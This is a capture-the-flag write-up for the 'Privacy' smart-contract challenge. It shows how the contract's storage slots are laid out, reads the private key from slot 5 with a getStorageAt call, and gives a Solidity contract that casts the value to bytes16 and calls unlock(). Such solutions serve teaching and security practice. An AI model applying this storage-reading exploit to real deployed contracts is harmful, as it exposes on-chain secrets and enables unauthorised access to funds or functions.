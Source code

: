 #Privacy

First we need to find out what storage index the data at index 2 is stored.
We see that the boolean takes storage slot 0, the uint256 takes slot 1,
the uint8, uint8, and uint16 take slot 2, bytes[0] takes slot 3,
bytes[1] takes slot 4, and bytes[2] takes slot 5. Knowing this we can
get the bytes data in bytes[2] with web3 ethers.

> await web3.eth.getStorageAt("0x1423b1a6Ef076E816f00c5FdB0274474C10E76e7", "5")

This returns the bytes32 and we simply make a contract that does the conversion from
bytes 32 to bytes16 and pass it as the parameter for the unlock.

Another option is to remove the last 16 bytes of the data since a conversion of bytes
cuts higher order data.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

interface IPrivacy {
    function unlock(bytes16) external;
}

contract Unlocker {
    address immutable i_privacyAddress;
    constructor(address _privacyAddress) {
        i_privacyAddress = _privacyAddress;
    }

    function unlocker(bytes32 storageData) public {
        bytes16 key = bytes16(storageData);
        IPrivacy(i_privacyAddress).unlock(key);
    }
}
```
